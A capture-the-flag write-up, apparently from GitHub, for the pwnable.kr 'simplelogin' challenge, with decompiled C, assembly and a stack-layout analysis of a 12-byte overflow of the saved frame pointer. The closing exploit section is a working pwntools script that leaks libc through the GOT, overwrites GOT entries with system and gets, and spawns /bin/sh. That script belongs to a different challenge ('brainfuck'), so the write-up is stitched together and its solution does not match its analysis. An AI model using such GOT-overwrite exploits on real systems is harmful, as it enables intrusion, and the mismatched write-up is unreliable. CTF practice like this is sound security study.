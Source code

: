 # Pwnable.kr simplelogin CTF Writeup

## Problem Description
The code for this challnage is:
### main
```c
0804930d  int32_t main()

0804932d      void var_32
0804932d      sub_80482e0(&var_32, 0, 0x1e)
08049352      _IO_setvbuf(_IO_stdout, 0, 2, 0)
08049377      _IO_setvbuf(_IO_stdin, 0, 1, 0)
08049383      _IO_printf("Authenticate : ")
0804938c      void* var_4c = &var_32
08049397      __isoc99_scanf("%30s")
080493b3      sub_80482e0(0x811eb40, 0, 0xc)
080493b8      char* var_38 = nullptr
080493cf      int32_t eax_2 = Base64Decode(&var_32, &var_38)
080493cf      
080493dd      if (eax_2 u> 0xc)
0804941a          _IO_puts("Wrong Length")
080493dd      else
080493f6          memcpy(&input, var_38, eax_2)
080493f6          
0804940a          if (auth(eax_2) == 1)
0804940c              correct()
0804940c              noreturn
0804940c      
08049425      return 0
```
### auth
```c
0804929c  int32_t auth(int32_t arg1)

080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
080492cd      void var_18
080492cd      void* eax_1 = calc_md5(&var_18, 0xc)
080492d8      void* var_28 = eax_1
080492e3      _IO_printf("hash : %s\n")
080492e3      
080492fd      if (sub_80482f0("f87cd601aa7fedca99018a8be88eda34", eax_1) != 0)
08049306          return 0
08049306      
080492ff      return 1
```
### correct
```c
0804925f  void correct() __noreturn

08049276      if (input == 0xdeadbeef)
0804927f          _IO_puts("Congratulation! you are good!")
0804928b          __libc_system("/bin/sh")
0804928b      
08049297      exit(nullptr)
08049297      noreturn
```
The program gets an input that is encoded with base64, copies it to a fixed memory address, decode it, calculate its md5, comapre it to some hash, and then checks if its equal to 0xdeadbeef.
There is ASLR but PIE is disabled, so the addresses of the program code do not change.

## Analysis
The `auth()` function starts like this:
```c
080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
```
When we disassemble the `auth()` function, we get this:
```asm
0804929c  int32_t auth(int32_t arg1)

0804929c  55                 push    ebp {__saved_ebp}
0804929d  89e5               mov     ebp, esp {__saved_ebp}
0804929f  83ec28             sub     esp, 0x28
080492a2  8b4508             mov     eax, dword [ebp+0x8 {arg1}]
080492a5  89442408           mov     dword [esp+0x8 {var_24}], eax
080492a9  c744240440eb1108   mov     dword [esp+0x4], input
080492b1  8d45ec             lea     eax, [ebp-0x14 {var_18}]
080492b4  83c00c             add     eax {var_c}, 0xc
080492b7  890424             mov     dword [esp {var_2c}], eax {var_c}
080492ba  e8a1030200         call    memcpy
```
We can see from these lines:
```asm
lea     eax, [ebp-0x14 {var_18}]
add     eax {var_c}, 0xc
```
That the buffer `var_c` (which will coantian the input) is located in `[ebp-0x8]` (`-0x14 + 0xc = 0x8`). However, the max length we can give as an input is 12 bytes. That means that we can do buffer overflow on the stack.
The stack looks like this:
```
arg1
------------
return address
------------
saved ebp
------------
local varaibles
```
So in our case, it will look like this:
```
ebp+0x8 -> arg1
------------
ebp+0x4 -> return address
------------
ebp     -> saved ebp
------------
ebp-0x8 -> input
```
So if we can write only 12 bytes, it means that we can only overwrite the `saved ebp`.

## Exploit Code
```python
from pwn import *

context(log_level='debug', os='linux', arch='i386')

session = ssh(user='brainfuck', host='pwnable.kr', port=2222, password='guest') # When I solved this challenge, nc did not work
p = session.process('./brainfuck')

# Local files for finding offsets (which are not affected by ASLR)
e = ELF(r'/mnt/c/users/dalal/desktop/private_projects/ctf/pwnable.kr/brainfuck/brainfuck')
libc = ELF(r'/usr/lib32/libc.so.6')

fgets_got = e.got['fgets']
memset_got = e.got['memset']
putchar_got = e.got['putchar']

# Libc offsets
fgets_offset = libc.symbols['fgets']
gets_offset = libc.symbols['gets']
system_offset = libc.symbols['system']
main_addr = 0x08048700 # does not affected by ASLR

tape_addr = 0x804a0a0

payload = ""

# Move to fgets@got
payload += "<" * (tape_addr - fgets_got)

# Leak 4 bytes of fgets address
payload += ".>" * 4
payload += "<" * 4 

# Overwrite fgets@got with system address
payload += ",>" * 4
payload += "<" * 4

# Move to memset@got
payload += ">" * (memset_got - fgets_got)

# Overwrite memset@got with gets address
payload += ",>" * 4

# Overwrite putchar@got with main address (The pointer is already in putchar@got so no need to move)
payload += ",>" * 4

# Trigger main() by calling putchar
payload += "."

p.sendlineafter(b"type some brainfuck instructions except [ ]\n", payload.encode())
sleep(0.1)

fgets_addr = u32(p.recvn(4))

libc_base = fgets_addr - fgets_offset
system_addr = libc_base + system_offset
gets_addr = libc_base + gets_offset

log.info(f"fgets_addr: {hex(fgets_addr)}")
log.info(f"libc base: {hex(libc_base)}")
log.info(f"system_addr: {hex(system_addr)}")
log.info(f"gets_addr: {hex(gets_addr)}")
log.info(f"main_addr: {hex(main_addr)}")

payload = p32(system_addr) + p32(gets_addr) + p32(main_addr)
p.send(payload)
sleep(0.3)

p.send(b"/bin/sh") # Send "/bin/sh" to trigger system("/bin/sh")

session.interactive()
```


